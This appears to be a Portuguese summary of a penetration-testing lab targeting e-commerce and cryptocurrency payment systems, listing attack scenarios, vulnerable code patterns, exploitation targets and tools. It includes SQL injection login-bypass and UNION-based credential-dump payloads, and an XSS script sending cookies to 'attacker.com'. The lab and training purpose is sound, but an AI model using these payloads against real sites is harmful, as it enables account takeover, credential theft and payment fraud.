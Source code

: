 Criptomoedas / Transações:

Simulações de ataques contra sistemas de pagamento em criptomoeda:
Man-in-the-Middle para alterar valores de pagamento.
SQL Injection para acessar carteiras ou registros de transações.
Falhas em implementações de webhooks de pagamento.

SQL Injection:
Clássico, mas com cenário bem focado:
SQLi em campos de login, carrinho de compras, checkout.
Tanto error-based SQLi quanto blind SQLi (time-based, boolean-based).

Exemplo de payloads usados:

' OR '1'='1 para bypass de login.
' UNION SELECT null, username, password FROM users -- para data exfiltration.

🏗️ Como isso aparece nos CÓDIGOS:
Vulnerabilidades comuns que encontrei:
Uso de query strings direto sem parametrização segura (risco de SQL Injection).
Armazenamento de cookies sem SameSite=Strict.
Falta de verificação de origem (CSRF protection) nos endpoints críticos.
Respostas HTTP revelando informações internas do sistema.
Falta de controle de tentativas de login (no account lockout).
Scripts JS no front-end que manipulam informações sensíveis antes da criptografia.

📦 Exemplos de payloads perigosos que cabem no seu lab:

SQL Injection (Login Bypass):

' OR '1'='1' --

Cookie Theft (via XSS):

<script>new Image().src="http://attacker.com/steal.php?cookie="+document.cookie;</script>

🔥 Possíveis pontos onde essas vulnerabilidades aparecem em e-commerces:

Área	Tipo de Falha	Como Explorar
Login	SQLi / Credential Stuffing	Injeção nos campos de login / Brute-force
Carrinho	Manipulação de Cookies / Sessões	Roubo de session ID
Checkout	SQL Injection	Alterar preços, forjar compras
APIs de Pagamento	Webhook Vulnerável / CSRF / MITM	Roubo de saldo de criptomoedas / falsificar pagamento
Área de Usuário	XSS + Session Hijacking	Sequestro de conta

🔧 Ferramentas que você poderia usar pra pentestar baseado no seu lab:
Burp Suite (com extensões como AuthMatrix, Turbo Intruder).
SQLmap para automatizar testes de SQL Injection.
Hydra ou FFUF para credential stuffing e brute-force.
OWASP ZAP para explorar session issues e XSS.
Mitmproxy para interceptar transações de criptomoedas.

📊 Conclusão:
✅ lab está 90% focado em cenários de ataque a e-commerce e aplicações financeiras, principalmente mirando:

Roubo de credenciais (Credential Stuffing).
Roubo de sessões e cookies.
Abusos de sistemas de pagamento em cripto.
SQL Injection em pontos críticos.
